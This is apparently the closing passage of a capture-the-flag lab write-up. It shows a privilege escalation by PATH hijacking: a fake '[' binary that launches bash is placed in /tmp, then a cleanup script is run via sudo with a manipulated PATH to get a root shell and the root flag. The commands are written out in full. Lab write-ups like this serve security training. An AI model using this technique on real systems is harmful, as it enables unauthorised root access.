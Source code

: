 ### 5.2 PATH Hijacking

Create a malicious `[` binary in `/tmp`:

```bash
touch [
chmod +x [
nano [
```

![](screenshots/square_bracket.png)

Contents of file:

```bash
bash
```

Execute the script with manipulated PATH:

```bash
sudo PATH=/tmp:$PATH /opt/cleanup.sh 
```

![](screenshots/root_flag.png)

🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---